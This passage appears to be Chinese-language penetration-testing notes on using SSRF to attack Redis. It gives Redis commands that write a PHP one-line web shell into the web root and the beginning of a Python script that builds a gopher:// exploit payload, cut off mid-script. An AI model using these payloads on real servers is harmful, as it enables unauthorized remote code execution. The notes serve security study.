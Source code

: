 ### 5.1 结合 Redis 的攻击

1. 前提：要能够远程登录 Redis，即注释掉：`bind 127.0.0.1 -::1`。
    对于大于 3.2 版本的 Redis，还需要关闭保护模式：`protected-mode no`

#### 5.1.1 Redis 写 Shell

1. 首先使用 `dict` 协议可以探测 redis 的信息：`curl dict://ip:6379/info`
    ![image-20240417203821737](SSRF/image-20240417203821737.png)

2. RESP（Redis Serialization Protocol）用于 Redis 客户端和用户端的通信，主要用于将简单字符串、整数、错误、数组等内容序列化。详情见：

    > https://blog.csdn.net/ljheee/article/details/103876683

3. 在目标主机上执行以下命令可以获得 Shell：
    ```bash
    flushall # 命令用于清空整个 Redis 服务器的数据
    set 1 '<?php @eval($_POST[1]);?>' # 创建一个键值对，键为 1，值为一句话
    config set dir '/var/www/html'  # 设置文件存储路径
    config set dbfilename shell.php # 设置文件名
    save # 保存
    ```

    但是实际是通过 SSRF 而不是直接在本机通过 redis-cli 远程连接执行，所以需要通过传输协议发过去。
    但是这些命令又不能直接放在链接中，需要通过 RESP 来发送到服务器。
    因此这些命令需要 RESP + Gopher 才能攻击。

4. 利用脚本如下所示：
    ```python
    # python2 script
    import urllib
    protocol="gopher://"
    ip="192.168.43.111"
    port="6379"
    shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
    filename="shell.php"
    # path="/var/www/html"
    path="/etc/redis"
    passwd=""
    cmd=["flushall",
         "set 1 {}".format(shell.replace(" ","${IFS}")),